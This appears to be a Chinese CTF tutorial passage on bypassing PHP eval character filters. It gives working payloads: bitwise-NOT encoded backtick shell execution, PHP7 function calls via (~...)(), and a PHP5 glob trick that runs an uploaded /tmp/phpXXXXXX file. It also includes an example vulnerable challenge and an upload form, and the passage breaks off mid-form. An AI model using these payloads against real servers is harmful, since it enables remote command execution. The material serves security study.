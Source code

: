 **过滤了_**

```
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>
```

?>闭合了 eval 自带的 <? 标签。接下来使用了短标签。{} 包含的 PHP 代码可以被执行，~"%a0%b8%ba%ab" 为 "_GET"，通过反引号进行 shell 命令执行。最后我们只要 GET 传参 %a0 即可执行命令。

**过滤了$**

- PHP7

    在 PHP7 中，我们可以使用 ($a)() 这种方法来执行命令。所以可以用取反构造 payload 执行命令。(~%8F%97%8F%96%91%99%90)(); 执行 phpinfo 函数，第一个括号中可以是任意的表达式。但是这里不能用 assert()来执行函数，因为 php7 不支持 assert()函数。

- PHP5

    在 PHP5 中不再支持 ($a)() 方法来调用函数
    1. shell 下可以利用 . 来执行任意脚本
    2. Linux 文件名支持 glob 通配符代替
        ```
        echo "ls" > AAAAAAAAAA
        . ??????????
        ```

    可以发送一个上传文件的 POST 包，此时 PHP 会将我们上传的文件保存在临时文件夹下，默认的文件名是 / tmp/phpXXXXXX, 文件名最后 6 个字符是随机的大小写字母。

    现在我们可以利用 glob 通配符匹配该文件，我们知道
    * `*` 可以代替 0 个及以上任意文件
    * `?` 可以代表 1 个任意字符
    * `[^a]` 可以用来判断这个位置的字符是不是 a
    * `[0-9] 可以用来限制范围 `

    通过 ascii 码表我们知道，可见大写字母 `@` 与 `[` 之间，所以我们可以利用 `[@-[]` 来表示大写字母。

    综上，我们可以利用 `. /???/????????[@-[]` 来匹配 `/tmp/phpXXXXXX`

---

## 例题3

```php
<?php
if(isset($_GET['evil'])){
    if(strlen($_GET['evil'])>25||preg_match("/[\w$=()<>'\"]/", $_GET['evil'])){
        die("danger!!");
    }
    @eval($_GET['evil']);
}
highlight_file(__FILE__);
?>
```

过滤了字母，数字，`$` ， `_` ， `()` 等，但 \` 和  `.`  还没有被过滤。由于过滤了（）所以不论 PHP 版本是 5 或者 7，都不能执行 ($a)()，所以就没有必要去判断 PHP 版本。由此可以想到上传一个小马文件，然后用 \`  来执行文件。

写一个表单上传
```html
<!DOCTYPE html>
<html lang="en">
<head>
 <meta charset="UTF-8">
 <title>Document</title>
</head>
<body>
 <form action="http://ip:*****/" method="post" enctype="multipart/form-data">
  <input type="file" name="file">
  <input type="submit" value="提交">
 </form>
```